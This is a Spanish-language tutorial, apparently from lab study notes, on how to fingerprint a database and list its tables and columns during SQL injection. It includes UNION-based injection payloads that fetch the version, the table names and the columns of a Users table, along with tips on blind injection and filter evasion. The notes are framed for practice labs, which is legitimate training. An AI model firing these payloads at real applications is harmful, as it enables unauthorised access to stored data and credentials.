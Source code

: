# Examinar la base de datos en ataques SQLi


## Resumen

Para explotar una vulnerabilidad de SQL injection es muy útil conocer el **tipo y la versión** del gestor de base de datos (SGBD) y **qué tablas y columnas** existen. Con esta información podemos construir payloads más precisos (por ejemplo `UNION SELECT` con el número correcto de columnas o funciones específicas del motor) y estimar el impacto.

Este documento muestra consultas típicas para identificar la versión y para enumerar tablas y columnas, con variantes para MySQL, Microsoft SQL Server, PostgreSQL, Oracle y SQLite.

---

## Identificar el tipo y la versión de la base de datos

Una forma común de identificar el SGBD es inyectar consultas específicas del proveedor que devuelvan la versión. Si la consulta funciona y devuelve datos, podemos inferir el motor y la versión.

### Consultas típicas por SGBD

* **Microsoft SQL Server / MySQL**

  ```sql
  SELECT @@version;
  ```

* **Oracle**

  ```sql
  SELECT * FROM v$version;
  ```

* **PostgreSQL**

  ```sql
  SELECT version();
  ```

* **SQLite**

  ```sql
  SELECT sqlite_version();
  ```

### Ejemplo con UNION

Si la aplicación permite `UNION` y la salida de la consulta se muestra en la página, puedes usar un payload como:

```
' UNION SELECT @@version--
```

Si la respuesta contiene algo como:

```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
... Standard Edition (64-bit) on Windows Server 2016 ...
```

entonces confirmas que el motor es Microsoft SQL Server y puedes ajustar payloads posteriores.

[Lab: 1 SQL injection attack, querying the database type and version on Oracle](1_SQL_injection_attack,_querying_the_database_type_and_version_on_Oracle.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)  

---

## Listar el contenido de la base de datos (tablas y columnas)

La mayoría de SGBD (excepto Oracle, que usa diccionarios específicos) implementan `information_schema`, un conjunto de vistas que describen metadatos (tablas, columnas, etc.). Consultar `information_schema` es una forma portátil de enumerar tablas/columnas en MySQL, PostgreSQL y SQL Server.

### Listar tablas (information_schema)

Consulta genérica (funciona en MySQL, PostgreSQL, SQL Server donde exista `information_schema`):

```sql
SELECT table_catalog, table_schema, table_name, table_type
FROM information_schema.tables
WHERE table_type = 'BASE TABLE'
ORDER BY table_schema, table_name;
```

**Salida de ejemplo:**

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

Esto indica que existen tres tablas: `Products`, `Users` y `Feedback`.

### Listar columnas de una tabla

Consulta genérica usando `information_schema.columns`:

```sql
SELECT table_catalog, table_schema, table_name, column_name, data_type
FROM information_schema.columns
WHERE table_name = 'Users'
ORDER BY ordinal_position;
```

**Salida de ejemplo:**

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

Con esto conoces las columnas y sus tipos.

---

## ¿Y Oracle? — vistas del diccionario

Oracle no siempre expone `information_schema`. En su lugar dispone de vistas como `ALL_TABLES`, `USER_TABLES`, `ALL_TAB_COLUMNS`, `USER_TAB_COLUMNS`.

* Listar tablas accesibles:

  ```sql
  SELECT owner, table_name FROM all_tables;
  -- o para sólo las del usuario actual:
  SELECT table_name FROM user_tables;
  ```

* Listar columnas de una tabla (ej. `USERS`):

  ```sql
  SELECT column_name, data_type FROM all_tab_columns WHERE table_name = 'USERS';
  ```

---

## Consejos prácticos para labs y explotación

1. **Haz fingerprint antes de lanzar payloads ruidosos.** Si sabes que es MySQL puedes usar `GROUP_CONCAT`, `CONCAT`, `SLEEP` (MySQL) o `LOAD_FILE()`; si es PostgreSQL usarás `string_agg`, `pg_sleep`, etc.
2. **Si la app no muestra resultados directamente, usa `UNION` para inyectar resultados en una columna visible.** Primero determina número de columnas con `ORDER BY`/`UNION SELECT NULL,...`.
3. **Si no puedes usar `UNION`, recurre a inyección ciega (boolean/time-based)** y extrae información carácter a carácter con `SLEEP`/`pg_sleep`/`WAITFOR` según el motor.
4. **En Oracle, usa `all_tables` / `all_tab_columns`** para enumerar objetos; muchas apps en labs tienen estas vistas accesibles y devuelven resultados.
5. **Evita enviar consultas destructivas en entornos reales.** En labs puedes experimentar, pero en producción no modifiques ni borres datos sin autorización.

---

## Payloads conceptuales (ejemplos adaptables)

> Ajusta cada payload al parámetro vulnerable y a la estructura de la respuesta de la aplicación.

* **Detectar versión (UNION)**

  * `' UNION SELECT @@version--` (MySQL / SQL Server)
  * `' UNION SELECT version()--` (Postgres / MySQL)
  * `' UNION SELECT * FROM v$version--` (Oracle, si se devuelve)

* **Listar tablas (information_schema)**

  * `' UNION SELECT table_schema, table_name, NULL, NULL FROM information_schema.tables--`

* **Listar columnas de `Users`**

  * `' UNION SELECT column_name, data_type, NULL, NULL FROM information_schema.columns WHERE table_name='Users'--`

* **Oracle — listar tablas**

  * `' UNION SELECT owner, table_name, NULL FROM all_tables--`

---

## Notas sobre salida y formateo

* Muchas veces debes **concatenar columnas** o usar funciones de agregación (`GROUP_CONCAT`, `string_agg`) para que los resultados quepan en una sola columna que la página muestre.
* Ajusta el número de columnas y tipos en `UNION SELECT` para que coincida con la consulta original.
* Si la aplicación filtra caracteres (por ejemplo `'` o `--`), intenta técnicas de evasión (comentarios, codificaciones, funciones nativas del motor) o usa herramientas como Burp para manipular encodings.

---

## Ejercicios de laboratorio sugeridos (Practitioner)

* **Oracle — query de versión y listados:** encontrar si `SELECT * FROM v$version` devuelve datos y luego listar tablas con `all_tables`.
* **MySQL / SQL Server — identificar versión con `@@version` y luego enumerar tablas con `information_schema.tables`**.
* **PostgreSQL — `SELECT version()` y enumerar con `pg_catalog`**.

Incluye siempre evidencias (requests, responses, capturas) en el writeup.

---

